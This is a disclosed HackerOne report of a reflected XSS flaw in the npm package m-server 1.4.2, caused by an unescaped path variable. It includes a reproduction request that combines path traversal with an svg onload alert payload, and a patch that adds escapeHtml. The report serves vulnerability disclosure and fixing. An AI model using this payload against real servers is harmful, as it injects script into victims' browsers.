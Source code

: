 # [m-server] XSS reflected because path does not escapeHtml

## Report Details
- **Report ID**: 951468
- **URL**: https://hackerone.com/reports/951468
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-08-05T08:11:07.493Z
- **Disclosed**: 2020-09-28T02:26:55.585Z

## Reporter
- **Username**: 0xd0ff9
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report XSS in m-server
It allows attacker can perform XSS in client side

# Module

**module name:** m-server
**version:** 1.4.2
**npm page:** `https://www.npmjs.com/package/m-server`

## Module Description
M-Server is a mini http static server that without any dependencies;


## Module Stats
[1] weekly downloads
150

# Vulnerability
XSS reflected because path does not escapeHtml

## Vulnerability Description
in `m-server/lib/utils.js` line 59 and 64, html push does not escapeHtml for variable path.
{F936938}

By change path of URL via traversal, attacker can control this variable `path`.
{F936939}

## Steps To Reproduce:
On server, run this:
$ cd /home/vagrant/tmp/test
$ m-server
On client, issue requests:
```
GET /../../../../home/vagrant/tmp/test/<svg/onload=alert(document.domain)>/../../../test/ HTTP/1.1
Host: 192.168.57.105:3001
User-Agent: curl/7.54.0
Accept: */*
Connection: close
```
POC:
{F936947}

## Patch
line 59 should use 
```
html.push('<li><a href="' + escapeHtml(path) + '/' + escapeHtml(val) + '">' + escapeHtml(val) + '</a></li>');
```
line 64 should use 
```
html.push('<li><a download href="' + escapeHtml(path) + '/' + escapeHtml(val) + '">' + escapeHtml(val) + '</a></li>');
```
Or strip path traversal

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- [OPERATING SYSTEM VERSION]
- [NODEJS VERSION]
- [NPM VERSION]
- [BROWSERS VERSIONS, IF APPLICABLE] 
- [OTHER SOFTWARE USED TO EXPLOIT VULNERABILITY AND THEIR VERSIONS, IF APPLICABLE]

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [Y/N] N
- I opened an issue in the related repository: [Y/N] N

> Hunter's comments and funny memes goes here

## Impact

XSS

## Attachments
- Screen_Shot_2020-08-05_at_2.57.56_PM.png
- Screen_Shot_2020-08-05_at_2.59.59_PM.png
- Screen_Recording_2020-08-05_at_2.47.01_PM.mov
